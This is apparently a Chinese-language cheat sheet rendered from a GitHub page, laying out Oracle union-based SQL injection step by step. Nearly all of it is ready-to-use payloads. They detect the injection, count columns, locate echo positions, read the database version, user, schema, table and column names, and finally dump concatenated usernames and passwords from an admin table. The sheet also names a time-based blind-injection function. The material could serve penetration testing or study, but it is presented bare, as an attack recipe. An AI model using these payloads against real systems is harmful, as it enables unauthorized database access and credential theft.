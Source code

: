 java大企业使用居多。
注入点测试：

<https://xz.aliyun.com/t/8020?time__1311=n4%2BxuDgDBAeDqrgDlroGkzD8CDkYeDce4YupD&alichlgref=https%3A%2F%2Fcn.bing.com%2F>

1/0
1/1
exp(120)
1,1
1,0

oracle时间盲注函数：DBMS_PIPE.RECEIVE_MESSAGE

## 判断注入

```
and 1=1 --+
and 1=2 --+
```

## []()判断列数

```
order by 8 --+
```

## []()判断回显位置

```
' union select null,null,null,null,null,null,null,null from dual --+
```

## []()查看当前数据库版本

```
' union select 1,null,(select banner from sys.v_$version where rownum=1),null,null,null,null,null from dual --+
```

## []()查询当前用户

```
' union select 1,null,(select user from dual),null,null,null,null,null from dual --+
```

## []()查看当前库名

```
' union select 1,null,(select owner from all_tables where rownum=1),null,null,null,null,null from dual --+
查询除已知的库中其他库
' union select 1,null,(select owner from all_tables where rownum=1 and owner <> '已知的数据库名'),null,null,null,null,null from dual --+
```

## []()查看表名

```
查看第一个表
    ' union select 1,null,(select table_name from user_tables where rownum=1),null,null,null,null,null from dual --+
查询除已知的表中其他表
    ' union select 1,null,(select table_name from user_tables where rownum=1 and table_name <> '已知的表名'),null,null,null,null,null from dual --+
```

## []()查询列名

```
查询第一列名
     ' union select 1,null,(select column_name from user_tab_columns where table_name='表名' and rownum=1),null,null,null,null,null from dual --+
查询除已知的表中其他表
     ' union select 1,null,(select column_name from user_tab_columns where table_name='表名' and rownum=1 and column_name <> '已知的列名'),null,null,null,null,null from dual --+
```

## []()查询数据

```
' union select 1,null,(select concat(username,password) from admin),null,null,null,null,null from dual --+
```

